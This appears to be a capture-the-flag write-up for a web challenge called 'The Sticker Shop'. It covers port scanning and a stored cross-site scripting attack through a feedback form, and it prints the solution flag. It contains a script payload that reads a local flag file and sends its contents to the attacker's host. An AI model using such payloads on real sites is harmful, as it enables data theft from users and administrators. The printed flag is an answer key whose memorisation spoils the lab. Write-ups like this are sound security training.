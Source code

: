 # The Sticker Shop

## Challenge Information
- **Challenge Name**: The Sticker Shop
- **Category**: Web Exploitation
- **Difficulty Level**: Easy

## Initial Analysis
On getting the target ip, as a tradition, i first conducted nmap analysis in which i found 4 ope ports. One was the current 8080, one was 22 and the other 2 were behind the firewalls. Moreover, i also conducted a directory enumeration p but did not find anything. I also tried to conduct a detailed nmap search for the services or vulnerabilites, but no use. Since we knew that both the client and the server are running on the same machine, it means that the server can be accessible in our local machine.

## Exploitation Steps

1. There is a feedback form in which i tried to send a command to my server: 
```javascript
<script>
  fetch('http://<YOUR_VPN_IP>:3000/flag.txt')
</script>
```

2. Before this, I ran my server locally using python `python -m http.server 3000`. On entering the payload in the feedback form, i received a response of 404 not found for the flag file. It means that i can send requests to my sever using this textarea input.

3. So lets modify the payload in which i will try to fetch the flag file from the local running server and send it to my hosted server. The modified script will first fetch the flag file from the local server, if it successfully receives the flag file in the response, it will send it in the fetch request to my locally hosted server.
```javascript
<script>
  fetch('http://127.0.0.1:8080/flag.txt')
    .then(response => response.text())
    .then(data => {
      fetch('http://<YOUR_VPN_IP>:3000/?flag=' + data);
    });
</script>
```

4. On submitting this payload, i recieved a request on my server in which the conents of the flag were available `THM{83789a69074f636f64a38879cfcabe8b62305ee6}`.
